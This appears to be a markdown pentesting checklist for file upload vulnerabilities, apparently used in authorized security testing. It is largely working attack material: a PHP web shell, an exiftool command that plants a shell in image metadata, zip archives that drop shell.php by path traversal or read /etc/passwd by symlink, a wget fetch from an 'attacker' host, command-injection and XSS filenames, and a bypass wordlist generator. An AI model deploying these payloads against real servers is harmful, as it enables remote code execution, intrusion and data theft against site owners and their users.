# 🗂️ File Upload - Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ While testing for file upload vulnerabilities, I realistically expect to:

- [ ] Upload a webshell or executable script for RCE
- [ ] Bypass extension and content-type restrictions
- [ ] Abuse alternate extensions, encodings, or null bytes
- [ ] Poison metadata (e.g. EXIF) to hide payloads
- [ ] Exploit upload location for path traversal, SSRF, XSS, XXE, or DoS
- [ ] Trigger backend decompression to escape upload directories
- [ ] Achieve execution via `.htaccess`, `.phar`, `.phtml`, `.php5`, etc.

---

## ✅ File Upload Attack Checklist

### 🔍 Extension Bypass

- [ ] Use alternate PHP extensions  
  - `.php`, `.phtml`, `.phps`, `.php5`, `.phar`, `.inc`, `.shtml`

- [ ] Try uppercase and obfuscated versions  
  - `file.PHP`, `file.pHp5`, `file.Phtml`, `file.pHp`, `file.php....`

- [ ] Double extension tricks  
  - `file.jpg.php`, `image.png.phtml`

- [ ] Null byte or encoded tricks  
  - `file.php%00.jpg`, `file.php%20`, `file.php%0a`, `file.php/`

- [ ] Fake extension prepending  
  - `goodfile.png.php`, `pic.jpg.phtml`, `file.asp:.jpg` (NTFS ADS)

- [ ] Long filename to bypass filters  
  - Use 232+ characters and cut `.png` off (e.g. `A…A.php.png`)

---

### 🧪 Content-Type & Magic Number Bypass

- [ ] Use generic Content-Types:
  ```
  Content-Type: application/octet-stream
  Content-Type: text/plain
  Content-Type: image/png
  ```

- [ ] Use EXIF metadata for shell:
  ```bash
  exiftool -Comment='<?php system($_POST["cmd"]); ?>' image.jpg
  ```

- [ ] Inject PNG/JPG magic bytes at file start
  ```
  \x89PNG\r\n\x1a\n
  \xff\xd8\xff (JPG)
  ```

---

### ⚙️ Execution via Upload

- [ ] Look for misconfigurations that auto-execute `.php` even with `.php.jpg`
- [ ] Check for `.htaccess` or `.config` execution tricks
- [ ] Try uploading `.phar` files that may be interpreted as PHP
- [ ] Upload `.svg`, `.html`, or `.js` for stored XSS
- [ ] Upload `.pdf`, `.pptx`, `.xml` for XXE or SSRF
- [ ] Upload `.zip` containing symlinks or nested paths

---

### 🚨 Advanced Tricks

- [ ] Rename uploaded file later if renaming is allowed
- [ ] Combine with LFI to execute uploaded shell
- [ ] Try uploading to overwrite important files (`CON`, `NUL`, etc.)
- [ ] Upload `;sleep 10;` as filename to test for command injection
- [ ] Upload `<svg onload=alert(1)>` to test XSS
- [ ] Try “path traversal” in filename (`../../../etc/passwd`)
- [ ] Use extensions like `.aspx`, `.jsp`, `.cfm`, `.pl` depending on backend

---

### 🛠️ Server Decompression Abuse

- [ ] **Symlink trick:**
  ```bash
  ln -s /etc/passwd link.txt
  zip --symlinks evil.zip link.txt
  ```

- [ ] **Directory traversal inside ZIP:**
  ```python
  z.writestr('../../../../var/www/html/shell.php', '<?php system($_GET["cmd"]); ?>')
  ```

- [ ] **Use evilarc tool:**
  ```bash
  python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
  ```

---

### 🐚 Web Shell Snippet

```php
<?php
if(isset($_REQUEST['cmd'])){
  system($_REQUEST['cmd']);
}
?>
```

---

### 🔄 wget Filename Truncation

- [ ] Create a long filename to bypass extension checks:
  ```bash
  echo "<?php system(\$_GET['cmd']); ?>" > $(python3 -c 'print("A"*232+".php.gif")')
  python3 -m http.server 80
  wget http://attacker/A...A.php.gif
  ```

---

### 📌 Polyglot File Tricks

- [ ] `.jpg` + `.php` hybrid (e.g., polyglot GIFAR)
- [ ] PNG with shell in IDAT chunk (ImageTragick bypass)
- [ ] File that is both `.zip` and `.php`
- [ ] `.svg` that acts as SSRF, XSS, or XXE vector

---

### 🧨 From File Upload to Other Vulns

- [ ] Filename = `../../../tmp/lol.png` → Path Traversal
- [ ] Filename = `sleep(10)--.jpg` → SQLi
- [ ] Filename = `<svg onload=alert(1)>` → Stored XSS
- [ ] Upload SVG/PDF/XML → XXE, SSRF, CORS bypass
- [ ] Upload `.js` → Service Worker attack
- [ ] Upload EICAR file → Test AV filter

---

### 📊 Magic Header Signatures

- PNG: `\x89PNG\r\n\x1a\n`
- JPG: `\xff\xd8\xff`

More: https://en.wikipedia.org/wiki/List_of_file_signatures

---

### 🔎 Useful Tools

- [Upload Scanner - Burp](https://github.com/portswigger/upload-scanner)
- [PayloadsAllTheThings – Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files)
- [fuxploider](https://github.com/almandin/fuxploider)

---

## 🧠 Top Things to Try by File Type

| File Type | Potential Impact                      |
|-----------|----------------------------------------|
| `.php`    | Webshell, RCE                         |
| `.svg`    | Stored XSS, XXE, SSRF                 |
| `.gif`    | Stored XSS, SSRF                      |
| `.csv`    | CSV Injection                         |
| `.xml`    | XXE                                   |
| `.avi`    | LFI, SSRF                             |
| `.html`   | XSS, Open Redirect                    |
| `.zip`    | LFI via traversal, DoS                |
| `.pdf`    | Blind XXE, SSRF                       |

---

```c
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```



